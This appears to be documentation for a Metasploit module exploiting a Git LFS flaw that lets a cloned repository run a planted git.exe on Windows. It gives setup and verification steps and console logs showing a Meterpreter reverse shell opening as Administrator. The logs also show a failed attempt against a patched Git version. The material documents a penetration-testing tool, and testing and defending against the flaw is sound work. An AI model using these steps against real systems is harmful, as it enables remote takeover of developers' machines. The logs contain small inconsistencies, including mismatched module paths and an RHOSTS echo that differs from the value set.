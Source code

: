 ## Vulnerable Application

Git in versions <= 2.29.2 includes git-lfs extension which allows remote attackers to execute arbitrary code on the 
victim's Windows system upon a clone operation. Attackers are able to plant a backdoor in the root directory of a 
malicious repository by simply adding an executable file named git.exe or any other executable extension available on 
the target Windows system (PATHEXT environment variable dependent). As a result, the malicious git binary will get 
executed automatically instead of the original git binary located in a trusted path, when the repository is cloned.

### Vulnerable Installation

1. Download a vulnerable version of Git for Windows: [v2.28.0](https://github.com/git-for-windows/git/releases/download/v2.28.0.windows.1/Git-2.28.0-64-bit.exe)
2. On the `Select Components` section of the installer, make sure Git LFS is selected (should be by default)
3. You should now be able to run the exploit and get a session on Windows

## Verification Steps

1. Install the application
2. Start msfconsole
3. Do: `use exploit/multi/http/git_lfs_rce`
4. Do: `run`
5. Ensure the exploit sets up a repository to be cloned, ex: `http://192.168.123.1:8080/fixflex.git`
6. From the victim machine, clone the repository created by the exploit.
7. You should get a shell.

## Scenarios
### Git `v2.28.0` on Windows 10 (2004)
```
msf6 > use windows/http/git_lfs_rce
[*] Using configured payload windows/x64/meterpreter/reverse_tcp
msf6 exploit(windows/http/git_lfs_rce) > set LHOST 172.16.199.1
LHOST => 172.16.199.1
msf6 exploit(windows/http/git_lfs_rce) > set RHOSTS 172.16.199.151
RHOSTS => 172.16.199.151
msf6 exploit(windows/http/git_lfs_rce) > run
[*] Exploit running as background job 0.
[*] Exploit completed, but no session was created.

[*] Started reverse TCP handler on 172.16.199.1:4444 
msf6 exploit(windows/http/git_lfs_rce) > 
[*] Using URL: http://0.0.0.0:8080/4C11tyW2NVX
[*] Local IP: http://192.168.2.114:8080/4C11tyW2NVX
[*] Server started.
[*] Git repository to clone: http://172.16.199.1:8080/cookley.git
[*] Sending payload data...
[*] Sending LFS object...
[*] Sending stage (200262 bytes) to 172.16.199.151
[+] Deleted .gitattributes
[*] Meterpreter session 1 opened (172.16.199.1:4444 -> 172.16.199.151:50018) at 2021-09-07 12:05:55 -0400
msf6 exploit(windows/http/git_lfs_rce) > sessions -i 1
[*] Starting interaction with 1...

meterpreter > getuid
Server username: DESKTOP-13BFU78\Administrator
meterpreter > sysinfo
Computer        : DESKTOP-13BFU78
OS              : Windows 10 (10.0 Build 19041).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 1
Meterpreter     : x64/windows
meterpreter > 
```

### Git `v2.32.0` on Windows 10 20H2
```
msf6 > use windows/http/git_lfs_rce
[*] Using configured payload windows/x64/meterpreter/reverse_tcp
msf6 exploit(windows/http/git_lfs_rce) > set LHOST 192.168.123.1
LHOST => 192.168.123.1
msf6 exploit(windows/http/git_lfs_rce) > set RHOSTS 192.168.123.150
RHOSTS => 172.16.199.151
msf6 exploit(windows/http/git_lfs_rce) > run
[*] Exploit running as background job 0.
[*] Exploit completed, but no session was created.

[*] Started reverse TCP handler on 192.168.123.1:4444 
[*] Executing automatic check (disable AutoCheck to override)
[+] The target is vulnerable.
msf6 exploit(windows/http/git_lfs_rce) > [*] Using URL: http://0.0.0.0:8080/15VCXHvHTOq5O
[*] Local IP: http://192.168.2.114:8080/15VCXHvHTOq5O
[*] Server started.
[*] Git repository to clone: http://192.168.123.1:8080/fixflex.git
[-] Exception handling request: The git client needs to be running on windows with a version less than 2.29.2. The client found was running on: Windows and was version: 2.32.0
```
